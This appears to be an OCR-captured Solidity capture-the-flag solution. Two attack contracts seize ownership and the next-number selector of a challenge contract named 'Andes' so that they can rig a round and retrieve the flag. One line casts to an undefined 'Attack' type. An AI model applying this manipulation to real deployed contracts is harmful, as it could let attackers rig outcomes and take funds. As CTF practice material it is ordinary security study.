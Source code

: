 ```solidity
pragma solidity ^0.7.6;
import "./andes.sol";

// Makes bid
contract Bidder {
    Andes andes;
    bytes32 token;

    event MyBalanceIs(address caller, string message, uint b);

    constructor(address _andes) {
        andes = Andes(_andes);
        andes.register();
        andes.purchaseBid(0);
        andes.designateOwner();
    }

    function designate(address other) public {
        andes.setNextSelector(other);
    }

    function setToken(bytes32 _token) public {
        token = _token;
    }

    function getFlag() public {
        andes.getFlag(token);
    }

    function getBalance() public {
        uint b = andes.getBalance();
        emit MyBalanceIs(msg.sender, "Balance got", b);
    }
}
```

```solidity
// Sets next number
contract Designator {
    constructor(address _andes, address _attack, bytes32 token) {
        // andes is the contract they deploy
        Andes andes = Andes(_andes);
        // attack is the contract we deploy, and we buy bid 0 and they're also owner
        Bidder attack = Attack(_attack);
        attack.setToken(token);
        // register ourselves
        andes.register();
        // make ourselves owner
        andes.designateOwner();
        // tell the attack contract to make us designator, and make us selector
        attack.designate(address(this));
        andes.setNextNumber(0);
        // start the round
        andes.playRound();
    }
}
```
